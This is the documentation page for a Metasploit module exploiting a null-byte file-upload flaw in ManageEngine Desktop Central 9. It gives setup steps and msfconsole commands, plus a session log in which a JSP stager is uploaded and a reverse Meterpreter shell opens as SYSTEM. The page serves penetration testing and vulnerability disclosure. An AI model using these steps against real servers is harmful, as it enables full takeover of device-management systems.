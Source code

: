 ## Vulnerable Application

### Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null byte at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM.
This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE:** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file `rdslog0.txt`.
       
### ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location. It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.

### Prerequisites

1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build [90109](http://archives.manageengine.com/desktop-central/90109/) and [91084](http://archives.manageengine.com/desktop-central/91084/).
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.

## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```

## Scenarios

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

